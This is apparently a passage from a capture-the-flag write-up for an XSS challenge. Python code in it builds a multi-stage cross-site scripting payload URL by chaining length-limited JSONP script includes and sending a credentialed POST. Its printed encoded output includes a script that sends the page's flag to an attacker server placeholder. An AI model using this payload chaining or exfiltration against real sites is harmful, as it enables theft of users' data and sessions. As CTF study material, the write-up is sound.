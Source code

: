 ```python

# the parameter for the post request
bkg_param = urlencode(f'innerText">{payload_stage2}')


# because the `http://xss.allesctf.net/items.php?cb=[script here]`
# has a limit on the length of the `cb` parameter we have to split
# the script into 3

# Part 1 and 2 build up a js variable `p` which contains `bkg_param`
# Part 3 makes the POST request with `p` (`bkg_param`) as the body
# and redirects to stage2
payload_stage1_p1 = f"p='bg={bkg_param[:200]}'"
payload_stage1_p2 = f"p+='{bkg_param[200:]}'"

payload_stage1_p3 = """
u=document.getElementById("stage2");
fetch(u,{
                headers:{'Content-type':'application/x-www-form-urlencoded'},
                method:"POST",
                credentials:"include",
                mode:"no-cors",
                body:p
});
debugger;
u.click()
"""
# generates a script tag for stage1 using
# `http://xss.allesctf.net/items.php?cb=[script here]`
def gen_script_tag(script):
        script = script.replace("\n","").replace("\t","") + "//"
        scriptUrl = f"/items.php?cb={urlencode(script)}"
        searchParam = f"<script src='{scriptUrl}'></script>"
        return urlencode(searchParam)

payload_url = f"http://xss.allesctf.net/?search={gen_script_tag(payload_stage1_p1)}{gen_script_tag(payload_stage1_p2)}{gen_script_tag(payload_stage1_p3)}"


print(payload_url)
```
The result looks something like this
```
http://xss.allesctf.net/?search=%3Cscript+src%3D%27%2Fitems.php%3Fcb%3Dp%253D%2527bg%253DinnerText%252522%25253E%25253Cspan%252Bid%25253Dbackgrounds%25253E%252526lt%25253Bscript%252526gt%25253Bflag%25253Ddocument.getElementsByTagName%252528%252526%252523x27%25253Bb%252526%252523x27%25253B%252529%25255B0%25255D.innerText%25253B%252Bfetch%252528%252526%252523x27%25253B%25252F%25252F%25255Byour%252Bserver%252Bhere%25255D%2527%252F%252F%27%3E%3C%2Fscript%3E%3Cscript+src%3D%27%2Fitems.php%3Fcb%3Dp%252B%253D%2527%25252Fflag%25253Ff%25253D%252526%252523x27%25253B%25252Bflag%25252C%25257B%252526%252523x27%25253Bmode%252526%252523x27%25253B%25253A%252526%252523x27%25253Bno-cors%252526%252523x27%25253B%25257D%252529%252526lt%25253B%25252Fscript%252526gt%25253B%25253C%25252Fspan%25253E%252B%25253C%252521--%2527%252F%252F%27%3E%3C%2Fscript%3E%3Cscript+src%3D%27%2Fitems.php%3Fcb%3Du%253Ddocument.getElementById%2528%2522stage2%2522%2529%253Bfetch%2528u%252C%257B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2Bheaders%253A%257B%2527Content-type%2527%253A%2527application%252Fx-www-form-urlencoded%2527%257D%252C%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2Bmethod%253A%2522POST%2522%252C%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2Bcredentials%253A%2522include%2522%252C%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2Bmode%253A%2522no-cors%2522%252C%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2Bbody%253Ap%257D%2529%253Bdebugger%253Bu.click%2528%2529%252F%252F%27%3E%3C%2Fscript%3E
```
